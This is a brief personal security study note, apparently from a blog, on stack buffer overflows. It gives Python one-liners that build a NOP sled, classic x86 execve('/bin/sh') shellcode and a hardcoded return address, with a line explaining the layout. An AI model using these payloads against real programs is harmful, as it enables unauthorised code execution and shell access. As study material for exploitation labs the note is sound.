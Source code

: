 ```yaml
---
layout: note
title: Exploitation
date: 2015-05-12 17:57:36 -0600
categories: Security
---
```


# Exploitation


### Format for performing a BOF

`python -c 'print "A"*80+"\x90\x90\x90\x90"'`

`python -c 'print "\x90"*30+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x2e\xcf\xff\xff"'`

Exploit format: 30*NOP + shellcode(46 bytes) + return_address(4 bytes)
80-46 = 34

Return Address: 0xffffcf2e
